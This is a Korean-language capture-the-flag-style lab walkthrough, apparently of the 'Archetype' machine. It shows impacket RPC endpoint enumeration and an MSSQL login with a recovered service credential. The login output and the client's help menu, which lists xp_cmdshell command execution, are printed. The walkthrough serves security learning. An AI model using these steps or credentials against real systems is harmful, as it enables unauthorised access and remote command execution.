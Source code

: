RPC Endpoint를 열거하기 위해 `impacket--rpcdump`를 사용해보고자 한다. 이거로 획득한 정보는 있지만, 어디에 사용해야할지는 감이 없다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# impacket-rpcdump -port 135 10.129.95.187
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Retrieving endpoint list from 10.129.95.187
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
          ncacn_ip_tcp:10.129.95.187[49664]
          ncalrpc:[WindowsShutdown]
          ncacn_np:\\ARCHETYPE[\PIPE\InitShutdown]
          ncalrpc:[WMsgKRpc083610]
```

impacket의 mssqlclient 툴을 사용하여 접속할 수 있었다. `mssqlclient.py -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>`와 같은 형태로 접근하여 로그인에 성공하였다. 
``` bash
┌──(root㉿kali)-[/home/user]
└─# impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.215.129
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'sql_svc'.

┌──(root㉿kali)-[/home/user]
└─# impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.215.129 -windows-aut
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

접속 후 어떤 명령어가 가능한지 출력해보면 아래와 같다. exe\*를 통해 실행하고 enum\*을 통해 정보를 출력. 그리고 익숙한 xp_cmdshell이 보인다.
``` bash
SQL (ARCHETYPE\sql_svc  dbo@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonate
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
    ! {cmd}                    - executes a local shell cmd
    show_query                 - show query
```